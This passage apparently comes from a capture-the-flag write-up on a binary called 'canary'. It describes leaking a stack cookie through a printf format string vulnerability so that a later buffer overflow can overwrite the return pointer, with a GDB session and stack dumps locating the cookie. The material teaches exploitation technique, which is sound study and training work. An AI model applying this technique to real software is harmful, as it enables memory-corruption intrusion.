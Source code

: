 So how might we pass this check while still overwriting the return pointer? Bruteforcing could be an option, but since this is a 64-bit binary the stack cookie is a 64 bit address, which would not be very easy to bruteforce. Reexaminating the code though we can see that our input to gets is passed right into the first parameter of printf! This creates a [format string vulnerability](https://en.wikipedia.org/wiki/Uncontrolled_format_string) which allows us to leak values off of the stack. Since our string is passed to the first parameter to printf, we can include things like `%x`. This will cause values on the stack to be interpreted as other parameters of printf, and they will be printed out for us. Since the stack cookie is just a pointer on the stack, we can leak it with the first call to gets and printf, and can do our normal buffer overflow on the second call to gets (making sure to keep the leaked stack cookie in tact).

Now that we know what we have a plan, let's hop into GDB to get started! With a little bit of poking around we can find that the stack cookie is stored at the address `0x7fffffffe648`, or `$rbp-0x8` (it is moved here in instruction `greet+17`). 

```
(gdb) b *0x00000000004008a6
Breakpoint 1 at 0x4008a6
(gdb) r
(gdb) r
Starting program: /pwn/canary 
Cock-a-doodle-doo! Cock-a-doodle-doo!

        .-"-.
       / 4 4 \
       \_ v _/
       //   \\
      ((     ))
=======""===""=======
         |||
         '|'

Ahhhh, what a beautiful morning on the farm!
And my canary woke me up at 5 AM on the dot!

       _.-^-._    .--.
    .-'   _   '-. |__|
   /     |_|     \|  |
  /               \  |
 /|     _____     |\ |
  |    |==|==|    |  |
  |    |--|--|    |  |
  |    |==|==|    |  |
^^^^^^^^^^^^^^^^^^^^^^^^


Breakpoint 1, 0x00000000004008a6 in greet ()
(gdb) x/xg $rbp-0x8
0x7fffffffe648:	0x72136546f7884d00
(gdb) x/20xg $rsp
0x7fffffffe5f0:	0x000000000000000a	0x0000000000400c17
0x7fffffffe600:	0x00007fffffffe750	0x00007ffff7a8781b
0x7fffffffe610:	0x0000000000000019	0x00007ffff7dd2620
0x7fffffffe620:	0x0000000000400c17	0x00007ffff7a7c7fa
0x7fffffffe630:	0x0000000000000000	0x00007fffffffe650
0x7fffffffe640:	0x00000000004006a0	0x72136546f7884d00
0x7fffffffe650:	0x00007fffffffe670	0x00000000004009c9
0x7fffffffe660:	0x00007fffffffe750	0x0000000000000000
0x7fffffffe670:	0x00000000004009d0	0x00007ffff7a2d830
0x7fffffffe680:	0x0000000000000001	0x00007fffffffe758
```
